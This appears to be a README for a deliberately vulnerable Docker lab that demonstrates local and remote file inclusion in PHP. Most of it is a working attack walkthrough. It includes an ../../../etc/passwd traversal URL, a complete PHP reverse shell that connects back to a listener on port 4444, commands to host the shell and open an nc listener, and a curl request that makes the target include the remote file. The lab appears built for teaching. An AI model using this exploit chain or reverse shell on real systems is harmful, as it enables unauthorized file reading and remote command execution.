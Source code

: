 # Setup

 - Ensure you have Docker installed
 - `git clone` this repository
 - `docker build -t lfi-rfi-example .` 
 - `docker run -p 80:80 lfi-rfi-example`

# LFI / RFI Walkthrough
LFI:
`http://localhost/index.php?view=../../../etc/passwd`

RFI:

Terminal 1
```
mkdir shell
cd shell
echo "<?php
\$ip = 'host.docker.internal'; // Replace with host IP
\$port = 4444; // Replace with your listener port
\$sock = fsockopen(\$ip, \$port);
if (\$sock) {
    while (!feof(\$sock)) {
        fwrite(\$sock, shell_exec(fgets(\$sock)));
    }
    fclose(\$sock);
}
?>" > shell.php
python -m http.server
```

Terminal 2
`nc -lnvp 4444`

Terminal 3
`docker run -p 80:80 lfi-rfi-example`

Terminal 4
`curl "http://localhost/mypage.php?view=http://host.docker.internal:8000/shell.php"`

Terminal 2 now has access
